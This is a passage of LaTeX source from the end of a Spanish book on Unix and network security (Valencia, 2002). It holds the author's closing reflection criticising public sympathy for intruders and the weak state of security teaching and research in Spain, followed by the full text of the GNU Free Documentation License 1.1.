van a permitir superar: la simpat\'{\i}a que socialmente despiertan muchos 
piratas inform\'aticos; por desgracia, mucha gente a\'un considera a estos 
personajes una especie de h\'eroes. Si nadie aplaude al que roba un bolso 
en la calle, >por qu\'e a\'un existen defensores de los que roban contrase\~nas 
de un sistema? Mientras sigamos sin darnos cuenta de lo que realmente son los 
piratas (simplemente delincuentes) ser\'a dif\'{\i}cil que la seguridad 
inform\'atica sea tomada en serio.\\
\\No me gustar\'{\i}a acabar este trabajo sin una peque\~na reflexi\'on sobre
el panorama de la seguridad en Unix y redes que existe actualmente en Espa\~na;
s\'olo cabe una definici\'on: {\bf lamentable}. Lo \'unico que por suerte se 
toma en serio es la criptograf\'{\i}a, que cuenta con grupos de estudio y 
docencia en algunas universidades del pa\'{\i}s. Del resto, casi es mejor no 
hablar: no existe ning\'un grupo importante de investigaci\'on en ninguna 
universidad espa\~nola, el n\'umero de art\'{\i}culos pu\-bli\-ca\-dos en 
revistas
serias se reduce a cero, y la docencia universitaria a unas pocas asignaturas
gen\'ericas -- y que ni siquiera son obligatorias --; por supuesto, no existe
ning\'un programa de doctorado relacionado con la materia (excepto, una vez 
m\'as, y afortunadamente, con la criptograf\'{\i}a). De esta forma, si la mayor
parte de los inform\'aticos salen de las facultades sin conocer conceptos tan
b\'asicos como {\it sniffer} o caballo de Troya (ya no hablamos de cosas como 
esteganograf\'{\i}a o seguridad multinivel), no es de extra\~nar que la 
seguridad se encuentre actualmente (en la mayor parte de los casos) en manos de 
aficionados a la inform\'atica
con ciertos conocimientos pr\'acticos pero con una importante falta de bases 
te\'oricas sobre la materia. Si lo que queremos son sistemas inseguros y 
reportajes sensacionalistas sobre quincea\~neros que violan la seguridad de La
Moncloa, lo estamos consiguiendo\ldots pero quiz\'as deber\'{\i}amos 
plantearnos qu\'e ha de pasar para que esto cambie.
\vspace{1cm}\\
\makebox[13cm][l]{\parbox[t]{13cm}{\hspace{8cm}Valencia, mayo de 2002}}

\cleardoublepage
\bibliography{unixsec}
\cleardoublepage
% fdl.tex 
% This file is a chapter.  It must be included in a larger document to work
% properly.

Version 1.1, March 2000\\

 Copyright \copyright\ 2000  Free Software Foundation, Inc.\\
     59 Temple Place, Suite 330, Boston, MA  02111-1307  USA\\
 Everyone is permitted to copy and distribute verbatim copies
 of this license document, but changing it is not allowed.

\section*{Preamble}

The purpose of this License is to make a manual, textbook, or other
written document ``free'' in the sense of freedom: to assure everyone
the effective freedom to copy and redistribute it, with or without
modifying it, either commercially or noncommercially.  Secondarily,
this License preserves for the author and publisher a way to get
credit for their work, while not being considered responsible for
modifications made by others.

This License is a kind of ``copyleft'', which means that derivative
works of the document must themselves be free in the same sense.  It
complements the GNU General Public License, which is a copyleft
license designed for free software.

We have designed this License in order to use it for manuals for free
software, because free software needs free documentation: a free
program should come with manuals providing the same freedoms that the
software does.  But this License is not limited to software manuals;
it can be used for any textual work, regardless of subject matter or
whether it is published as a printed book.  We recommend this License
principally for works whose purpose is instruction or reference.

\section{Applicability and Definitions}

This License applies to any manual or other work that contains a
notice placed by the copyright holder saying it can be distributed
under the terms of this License.  The ``Document'', below, refers to any
such manual or work.  Any member of the public is a licensee, and is
addressed as ``you''.

A ``Modified Version'' of the Document means any work containing the
Document or a portion of it, either copied verbatim, or with
modifications and/or translated into another language.

A ``Secondary Section'' is a named appendix or a front-matter section of
the Document that deals exclusively with the relationship of the
publishers or authors of the Document to the Document's overall subject
(or to related matters) and contains nothing that could fall directly
within that overall subject.  (For example, if the Document is in part a
textbook of mathematics, a Secondary Section may not explain any
mathematics.)  The relationship could be a matter of historical
connection with the subject or with related matters, or of legal,
commercial, philosophical, ethical or political position regarding
them.

The ``Invariant Sections'' are certain Secondary Sections whose titles
are designated, as being those of Invariant Sections, in the notice
that says that the Document is released under this License.

The ``Cover Texts'' are certain short passages of text that are listed,
as Front-Cover Texts or Back-Cover Texts, in the notice that says that
the Document is released under this License.

A ``Transparent'' copy of the Document means a machine-readable copy,
represented in a format whose specification is available to the
general public, whose contents can be viewed and edited directly and
straightforwardly with generic text editors or (for images composed of
pixels) generic paint programs or (for drawings) some widely available
drawing editor, and that is suitable for input to text formatters or
for automatic translation to a variety of formats suitable for input
to text formatters.  A copy made in an otherwise Transparent file
format whose markup has been designed to thwart or discourage
subsequent modification by readers is not Transparent.  A copy that is
not ``Transparent'' is called ``Opaque''.

Examples of suitable formats for Transparent copies include plain
ASCII without markup, Texinfo input format, \LaTeX~input format, SGML
or XML using a publicly available DTD, and standard-conforming simple
HTML designed for human modification.  Opaque formats include
PostScript, PDF, proprietary formats that can be read and edited only
by proprietary word processors, SGML or XML for which the DTD and/or
processing tools are not generally available, and the
machine-generated HTML produced by some word processors for output
purposes only.

The ``Title Page'' means, for a printed book, the title page itself,
plus such following pages as are needed to hold, legibly, the material
this License requires to appear in the title page.  For works in
formats which do not have any title page as such, ``Title Page'' means
the text near the most prominent appearance of the work's title,
preceding the beginning of the body of the text.


\section{Verbatim Copying}

You may copy and distribute the Document in any medium, either
commercially or noncommercially, provided that this License, the
copyright notices, and the license notice saying this License applies
to the Document are reproduced in all copies, and that you add no other
conditions whatsoever to those of this License.  You may not use
technical measures to obstruct or control the reading or further
copying of the copies you make or distribute.  However, you may accept
compensation in exchange for copies.  If you distribute a large enough
number of copies you must also follow the conditions in section 3.

You may also lend copies, under the same conditions stated above, and
you may publicly display copies.


\section{Copying in Quantity}

If you publish printed copies of the Document numbering more than 100,
and the Document's license notice requires Cover Texts, you must enclose
the copies in covers that carry, clearly and legibly, all these Cover
Texts: Front-Cover Texts on the front cover, and Back-Cover Texts on
the back cover.  Both covers must also clearly and legibly identify
you as the publisher of these copies.  The front cover must present
the full title with all words of the title equally prominent and
visible.  You may add other material on the covers in addition.
Copying with changes limited to the covers, as long as they preserve
the title of the Document and satisfy these conditions, can be treated
as verbatim copying in other respects.

If the required texts for either cover are too voluminous to fit
legibly, you should put the first ones listed (as many as fit
reasonably) on the actual cover, and continue the rest onto adjacent
pages.

If you publish or distribute Opaque copies of the Document numbering
more than 100, you must either include a machine-readable Transparent
copy along with each Opaque copy, or state in or with each Opaque copy
a publicly-accessible computer-network location containing a complete
Transparent copy of the Document, free of added material, which the
general network-using public has access to download anonymously at no
charge using public-standard network protocols.  If you use the latter
option, you must take reasonably prudent steps, when you begin
distribution of Opaque copies in quantity, to ensure that this
Transparent copy will remain thus accessible at the stated location
until at least one year after the last time you distribute an Opaque
copy (directly or through your agents or retailers) of that edition to
the public.

It is requested, but not required, that you contact the authors of the
Document well before redistributing any large number of copies, to give
them a chance to provide you with an updated version of the Document.


\section{Modifications}

You may copy and distribute a Modified Version of the Document under
the conditions of sections 2 and 3 above, provided that you release
the Modified Version under precisely this License, with the Modified
Version filling the role of the Document, thus licensing distribution
and modification of the Modified Version to whoever possesses a copy
of it.  In addition, you must do these things in the Modified Version:

\begin{itemize}

\item Use in the Title Page (and on the covers, if any) a title distinct
   from that of the Document, and from those of previous versions
   (which should, if there were any, be listed in the History section
   of the Document).  You may use the same title as a previous version
   if the original publisher of that version gives permission.
\item List on the Title Page, as authors, one or more persons or entities
   responsible for authorship of the modifications in the Modified
   Version, together with at least five of the principal authors of the
   Document (all of its principal authors, if it has less than five).
\item State on the Title page the name of the publisher of the
   Modified Version, as the publisher.
\item Preserve all the copyright notices of the Document.
\item Add an appropriate copyright notice for your modifications
   adjacent to the other copyright notices.
\item Include, immediately after the copyright notices, a license notice
   giving the public permission to use the Modified Version under the
   terms of this License, in the form shown in the Addendum below.
\item Preserve in that license notice the full lists of Invariant Sections
   and required Cover Texts given in the Document's license notice.
\item Include an unaltered copy of this License.
\item Preserve the section entitled ``History'', and its title, and add to
   it an item stating at least the title, year, new authors, and
   publisher of the Modified Version as given on the Title Page.  If
   there is no section entitled ``History'' in the Document, create one
   stating the title, year, authors, and publisher of the Document as
   given on its Title Page, then add an item describing the Modified
   Version as stated in the previous sentence.
\item Preserve the network location, if any, given in the Document for
   public access to a Transparent copy of the Document, and likewise
   the network locations given in the Document for previous versions
   it was based on.  These may be placed in the ``History'' section.
   You may omit a network location for a work that was published at
   least four years before the Document itself, or if the original
   publisher of the version it refers to gives permission.
\item In any section entitled ``Acknowledgements'' or ``Dedications'',
   preserve the section's title, and preserve in the section all the
   substance and tone of each of the contributor acknowledgements
   and/or dedications given therein.
\item Preserve all the Invariant Sections of the Document,
   unaltered in their text and in their titles.  Section numbers
   or the equivalent are not considered part of the section titles.
\item Delete any section entitled ``Endorsements''.  Such a section
   may not be included in the Modified Version.
\item Do not retitle any existing section as ``Endorsements''
   or to conflict in title with any Invariant Section.

\end{itemize}

If the Modified Version includes new front-matter sections or
appendices that qualify as Secondary Sections and contain no material
copied from the Document, you may at your option designate some or all
of these sections as invariant.  To do this, add their titles to the
list of Invariant Sections in the Modified Version's license notice.
These titles must be distinct from any other section titles.

You may add a section entitled ``Endorsements'', provided it contains
nothing but endorsements of your Modified Version by various
parties -- for example, statements of peer review or that the text has
been approved by an organization as the authoritative definition of a
standard.

You may add a passage of up to five words as a Front-Cover Text, and a
passage of up to 25 words as a Back-Cover Text, to the end of the list
of Cover Texts in the Modified Version.  Only one passage of
Front-Cover Text and one of Back-Cover Text may be added by (or
through arrangements made by) any one entity.  If the Document already
includes a cover text for the same cover, previously added by you or
by arrangement made by the same entity you are acting on behalf of,
you may not add another; but you may replace the old one, on explicit
permission from the previous publisher that added the old one.

The author(s) and publisher(s) of the Document do not by this License
give permission to use their names for publicity for or to assert or
imply endorsement of any Modified Version.


\section{Combining Documents}

You may combine the Document with other documents released under this
License, under the terms defined in section 4 above for modified
versions, provided that you include in the combination all of the
Invariant Sections of all of the original documents, unmodified, and
list them all as Invariant Sections of your combined work in its
license notice.

The combined work need only contain one copy of this License, and
multiple identical Invariant Sections may be replaced with a single
copy.  If there are multiple Invariant Sections with the same name but
different contents, make the title of each such section unique by
adding at the end of it, in parentheses, the name of the original
author or publisher of that section if known, or else a unique number.
Make the same adjustment to the section titles in the list of
Invariant Sections in the license notice of the combined work.

In the combination, you must combine any sections entitled ``History''
in the various original documents, forming one section entitled
``History''; likewise combine any sections entitled ``Acknowledgements'',
and any sections entitled ``Dedications''.  You must delete all sections
entitled ``Endorsements.''


\section{Collections of Documents}

You may make a collection consisting of the Document and other documents
released under this License, and replace the individual copies of this
License in the various documents with a single copy that is included in
the collection, provided that you follow the rules of this License for
verbatim copying of each of the documents in all other respects.

You may extract a single document from such a collection, and distribute
it individually under this License, provided you insert a copy of this
License into the extracted document, and follow this License in all
other respects regarding verbatim copying of that document.



\section{Aggregation With Independent Works}

A compilation of the Document or its derivatives with other separate
and independent documents or works, in or on a volume of a storage or
distribution medium, does not as a whole count as a Modified Version
of the Document, provided no compilation copyright is claimed for the
compilation.  Such a compilation is called an ``aggregate'', and this
License does not apply to the other self-contained works thus compiled
with the Document, on account of their being thus compiled, if they
are not themselves derivative works of the Document.

If the Cover Text requirement of section 3 is applicable to these
copies of the Document, then if the Document is less than one quarter
of the entire aggregate, the Document's Cover Texts may be placed on
covers that surround only the Document within the aggregate.
Otherwise they must appear on covers around the whole aggregate.


\section{Translation}

Translation is considered a kind of modification, so you may
distribute translations of the Document under the terms of section 4.
Replacing Invariant Sections with translations requires special
permission from their copyright holders, but you may include
translations of some or all Invariant Sections in addition to the
original versions of these Invariant Sections.  You may include a
translation of this License provided that you also include the
original English version of this License.  In case of a disagreement
between the translation and the original English version of this
License, the original English version will prevail.


\section{Termination}

You may not copy, modify, sublicense, or distribute the Document except
as expressly provided for under this License.  Any other attempt to
copy, modify, sublicense or distribute the Document is void, and will
automatically terminate your rights under this License.  However,
parties who have received copies, or rights, from you under this
License will not have their licenses terminated so long as such
parties remain in full compliance.


\section{Future Revisions of This License}

The Free Software Foundation may publish new, revised versions
of the GNU Free Documentation License from time to time.  Such new
versions will be similar in spirit to the present version, but may
differ in detail to address new problems or concerns. See
http://www.gnu.org/copyleft/.

Each version of the License is given a distinguishing version number.
If the Document specifies that a particular numbered version of this
License "or any later version" applies to it, you have the option of
following the terms and conditions either of that specified version or
of any later version that has been published (not as a draft) by the
Free Software Foundation.  If the Document does not specify a version
number of this License, you may choose any version ever published (not
as a draft) by the Free Software Foundation.

\section*{ADDENDUM: How to use this License for your documents}

To use this License in a document you have written, include a copy of
the License in the document and put the following copyright and
license notices just after the title page:

\begin{quote}

      Copyright \copyright\ YEAR  YOUR NAME.
      Permission is granted to copy, distribute and/or modify this document
      under the terms of the GNU Free Documentation License, Version 1.1
      or any later version published by the Free Software Foundation;
      with the Invariant Sections being LIST THEIR TITLES, with the
      Front-Cover Texts being LIST, and with the Back-Cover Texts being LIST.
      A copy of the license is included in the section entitled ``GNU
      Free Documentation License''.

\end{quote}

If you have no Invariant Sections, write ``with no Invariant Sections''
instead of saying which ones are invariant.  If you have no
Front-Cover Texts, write ``no Front-Cover Texts'' instead of
``Front-Cover Texts being LIST''; likewise for Back-Cover Texts.

If your document contains nontrivial examples of program code, we
recommend releasing these examples in parallel under your choice of
free software license, such as the GNU General Public License,
to permit their use in free software.


\end{document}
